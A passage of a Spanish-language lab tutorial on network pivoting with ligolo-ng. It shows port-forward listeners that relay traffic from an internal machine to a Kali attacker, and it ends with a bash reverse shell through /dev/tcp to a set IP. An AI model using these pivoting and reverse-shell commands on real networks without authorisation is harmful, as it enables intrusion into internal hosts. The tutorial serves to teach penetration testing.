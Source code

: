 Para empezar el túnel.

Y ahora si desde kali abro una terminal y hago ping a la máquina 2, ya puedo.

Ahora tengo acceso desde kali a máquina 2, pero máquina 2 no tiene acceso a kali. Para ello, en la terminal de kali donde está ligolo:

```
ligolo> listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80
```

Ponemos un puerto a la escucha. Así estamos diciendo que la IP del agente (0.0.0.0), la de máquina 1, quiere estar a la escucha en el puerto 8080 por ejemplo. Y todo lo que reciba por el puerto 8080, lo envíe a la máquina atacante por el puerto 80. 

Y si hacemos este comando podemos ver que se ha creado bien:

```
ligolo> listener_list
```

Así hemos hecho redirección de puertos (port forwarding).

Ahora desde kali:

```
python3 -m http.server 80
```

Si ahora desde máquina 2 hacemos:

```
curl http://<IP-kali>:80
```

No funcionará, porque el port forward es desde la máquina 1 (es la pivoting). 

Así que sería hacer esto desde máquina 2:

```
curl http://<IP-maquina1>:8080
```

Porque lo que habíamos hecho es decirle que redirija todo el tráfico que reciba máquina 1 por el puerto 8080, a kali por el 80. Y ahora sí que kali recibe las conexiones de máquina 2.

Ahora si queremos una reverse shell, desde kali hacemos:

```
nc -nlvp 4444
```

Y desde kali pero desde el proxy de ligolo hacemos otro listener:

```
ligolo> listener_add --addr 0.0.0.0:4444 --to 127.0.0.1:4444
```

Todo lo que reciba máquina 1 por el puerto 4444, lo devuelve a kali por el 4444.

Ahora desde máquina 2  hacemos reverse shell a máquina 1 (y ligolo lo redirige a kali):

```
sh -i >& /dev/tcp/20.20.20.5/4444 0>&1
```
